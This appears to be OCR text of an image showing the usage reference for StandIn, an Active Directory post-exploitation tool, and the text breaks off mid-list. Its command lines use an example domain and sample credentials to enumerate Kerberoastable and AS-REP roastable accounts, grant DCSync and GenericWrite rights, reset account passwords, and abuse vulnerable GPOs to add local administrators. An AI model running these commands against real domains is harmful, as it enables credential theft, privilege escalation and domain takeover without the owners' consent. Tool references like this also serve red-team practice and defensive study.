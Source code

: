 ```
 >--~~--> Usage? <--~~--<

# Perform LDAP search
StandIn.exe --ldap "(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))"
StandIn.exe --ldap servicePrincipalName=* --domain redhook --user RFludd --pass Cl4vi$Alchemi4e --limit 10
StandIn.exe --ldap servicePrincipalName=* --filter "pwdlastset, distinguishedname, lastlogon" --limit 100

# Query object properties by LDAP filter
StandIn.exe --object "(&(samAccountType=805306368)(servicePrincipalName=*vermismysteriis.redhook.local*))"
StandIn.exe --object samaccountname=Celephais-01$ --domain redhook --user RFludd --pass Cl4vi$Alchemi4e
StandIn.exe --object samaccountname=Celephais-01$ --filter "pwdlastset, serviceprincipalname, objectsid"

# Query object access permissions, optionally filter by NTAccount
StandIn.exe --object "distinguishedname=DC=redhook,DC=local" --access
StandIn.exe --object samaccountname=Rllyeh$ --access --ntaccount "REDHOOK\EDerby"
StandIn.exe --object samaccountname=JCurwen --access --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Grant object access permissions
StandIn.exe --object "distinguishedname=DC=redhook,DC=local" --grant "REDHOOK\MBWillett" --type DCSync
StandIn.exe --object "distinguishedname=DC=redhook,DC=local" --grant "REDHOOK\MBWillett" --guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
StandIn.exe --object samaccountname=SomeTarget001$ --grant "REDHOOK\MBWillett" --type GenericWrite --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Set object password
StandIn.exe --object samaccountname=SomeTarget001$ --newpass "Arkh4mW1tch!"
StandIn.exe --object samaccountname=BJenkin --newpass "Dr34m1nTh3H#u$e" --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add ASREP to userAccountControl flags
StandIn.exe --object samaccountname=HArmitage --asrep
StandIn.exe --object samaccountname=FMorgan --asrep --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Remove ASREP from userAccountControl flags
StandIn.exe --object samaccountname=TMalone --asrep --remove
StandIn.exe --object samaccountname=RSuydam --asrep  --remove --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Get a list of all ASREP roastable accounts
StandIn.exe --asrep
StandIn.exe --asrep --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Return GPO objects, optionally wildcard filter and get ACL's
StandIn.exe --gpo --limit 20
StandIn.exe --gpo --filter admin --domain redhook --user RFludd --pass Cl4vi$Alchemi4e
StandIn.exe --gpo --filter admin --acl --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add samAccountName to BUILTIN\Administrators for vulnerable GPO
StandIn.exe --gpo --filter ArcanePolicy --localadmin JCurwen
StandIn.exe --gpo --filter ArcanePolicy --localadmin JCurwen --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add token rights to samAccountName in a vulnerable GPO
```